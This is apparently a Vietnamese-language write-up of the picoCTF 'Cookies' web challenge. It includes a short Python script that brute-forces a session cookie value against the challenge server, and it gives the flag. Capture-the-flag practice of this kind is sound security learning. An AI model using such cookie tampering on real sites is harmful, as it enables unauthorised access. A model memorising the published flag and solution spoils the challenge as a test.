 # Cookies

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

## Hint 

None

## Points

40 points

## Solution

Challenge sẽ có dạng một form yêu cầu ta nhập vào một loại cookies nào đó cần tìm như sau :

![IMG](image/cookie1.png)

OK ta thử nhập vào "snickerdoodle" xem sao thì nó đưa ta đến một trang */check* và kết quả trả về là 1 thông báo success:

> I love snickerdoodle cookies!

Vì title là cookie nên ta sẽ vào devtool và kiểm tra cookie của nó và kết quả :

![IMG](image/cookie.png)

Ta có thể thấy có một cookie **name : 1** .Mình thử thay đổi giá trị của name thành một số khác thì thấy web trả về một loại thông báo khác vậy khả năng ta có thể inject vào cookie name này bằng cách *brute force* value .

Để giải quyết task này mình có [script](script.py) sau :

```
import requests, re

url = "http://mercury.picoctf.net:21485/check"

for i in range(20):
	cookie  = {'name': str(i)}
	res = requests.get(url , cookies=cookie)
	flag = re.findall('picoCTF{.*}', res.text)

	if flag :
		print('-----Binggo-----')
		print(flag)
		break
``` 

## Flag

picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
